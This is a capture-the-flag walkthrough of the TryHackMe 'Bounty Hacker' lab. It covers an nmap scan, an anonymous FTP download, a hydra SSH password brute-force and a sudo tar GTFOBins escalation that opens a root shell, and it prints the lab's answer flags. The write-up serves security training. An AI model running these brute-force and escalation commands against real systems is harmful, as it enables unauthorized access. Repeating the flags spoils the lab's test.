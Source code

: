 # Try Hack Me - Bounty Hacker

setup variable IP for easy use
```bash
export IP=10.10.14.22
```

# TASK 1

```bash
nmap -sC -sV -oN nmap/initial $IP
```

Results

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 16:24 EDT
Nmap scan report for 10.10.14.22
Host is up (0.14s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:                                                                             
|      Connected to ::ffff:10.6.57.243                                                           
|      Logged in as ftp                                                                          
|      TYPE: ASCII                                                                               
|      No session bandwidth limit                                                                
|      Session timeout in seconds is 300                                                         
|      Control connection is plain text                                                          
|      Data connections will be plain text                                                       
|      At session startup, client count was 3                                                    
|      vsFTPd 3.0.3 - secure, fast, stable                                                       
|_End of status                                                                                  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                
| ssh-hostkey:                                                                                   
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)                                   
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)                                  
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)                                
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                              
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                     
|_http-title: Site doesn't have a title (text/html).                                             
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel            
```

Q. Who wrote the task list? 
A. lin

There's nothing on the web site and dirbuster produced no new subdirectories. let's try anonymous FTP

```bash
ftp anonymous@10.10.14.22
mget *.txt
```
task.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

locks.txt
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
etc......

```

Q. What service can you bruteforce with the text file found? 
A. SSH

Now we have her username we can attack ssh with hydra

Q. What is the users password?
A. RedDr4gonSynd1cat3

```bash
hydra -l lin -P /home/username/Documents/THM/Bounty_hunter/locks.txt ssh://10.10.14.22
```

Q. user.txt
A. THM{CR1M3_SyNd1C4T3}

```bash
ssh lin@10.10.14.22
cat user.txt
```

Q. root.txt
A. THM{80UN7Y_h4cK3r}

```bash
sudo -l
```

Results

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick look to GTfoBins - https://gtfobins.github.io/gtfobins/tar/

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

we're root

cat out the file

```bash
cat /root/root.txt
```

Done!
